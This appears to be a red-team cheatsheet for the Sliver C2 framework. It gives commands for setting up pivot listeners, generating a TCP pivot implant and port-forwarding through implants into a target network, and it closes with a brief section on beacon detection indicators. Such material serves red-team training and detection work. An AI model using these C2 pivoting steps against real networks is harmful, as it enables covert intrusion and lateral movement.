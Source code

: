 Sliver [Pivots](https://github.com/BishopFox/sliver/wiki/Pivots) != [Port-Forwarding](https://github.com/BishopFox/sliver/wiki/Port-Forwarding); Pivots are for C2 traffic, `portfwd` is *for tunneling generic tcp connections into a target environment.*

Pivots != `Portfwd`, egress through implants; [Pivoting](https://github.com/BishopFox/sliver/wiki/Pivots) - C2 Traffic
```go
// List all an decide
beacons
// For each required hop 
use $implant
// Requires interactive session
interactive
// List pivots
pivots 
// For implant that will be the pivot listener  
use $session-id
// Open a pivot port
pivots tcp
pivots tcp  --bind 0.0.0.0
// get details on a specific pivot listener; graph will display the json with more info
pivots detail | pivot graph
// Generate a Pivot Implant  that will connect to the pivot listener 
generate --tcp-pivot 10.10.10.10:6969
```

[Port-Forwarding](https://github.com/BishopFox/sliver/wiki/Port-Forwarding) - Tunneling generic tcp connections
```go
// By default all port forwards will be bound to the `127.0.0.1` interface, but you can override this using the `--bind` flag
// Local port forward
portfwd add --remote 10.10.10.10:22
// Reverse Port forward
rportfwd add --remote 10.10.10.10:22
// `wg-portfwd` WireGuard Port Foward requires WireGuard 
```

## Detecting Sliver

Summarised from [seamlessintelligence part 3](https://seamlessintelligence.com.au/sliver_3.html) - please support and read, this is just a cheatsheet:
- **Don’t rely on a single test to create your detection**
- **Don’t rely on a single log field just because it looks unique**
- **Search around the obvious logs for other related logs**
- **Where possible test every rule in both test and production environments**

Detecting Established Sessions:
- MetaData
- File Hash
- Current Directory

Sliver beacon detection:
```powershell 
# Requires Sysmon2
# look for default nomanclature, but this is easily customised -save /path/name.exe
WORD_WORD.exe 

powershell.exe -NoExit -Command[Console]::OutputEncoding=[Text:UTF8Encoding]:UTF8
# by default uses spool.svc to getsystem 
spool.svc
```
